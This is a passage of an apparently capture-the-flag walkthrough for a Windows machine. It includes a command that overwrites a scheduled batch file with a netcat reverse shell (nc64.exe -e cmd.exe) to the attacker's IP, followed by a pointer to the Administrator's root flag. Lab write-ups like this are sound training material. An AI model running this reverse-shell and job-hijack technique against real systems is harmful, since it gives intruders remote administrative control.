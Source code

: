 Now we can go back to our `SSH` tab.

Remember to `leave powershell`. Just type `exit`.

Now, we can type:

```
echo "C:\Log-Management\nc64.exe -e cmd.exe {your tun0 ip} {port you have chosen}" > C:\Log-Management\job.bat
```

![Netcat](./Screenshots/markupnetcat2.png)

Let's look back at our `Netcat` tab. Our `reverse shell` works.

![Netcat](./Screenshots/markupnetcat3.png)

### Get the root flag

The `root` flag is in the `C:\Users\Administrator\Desktop` path.
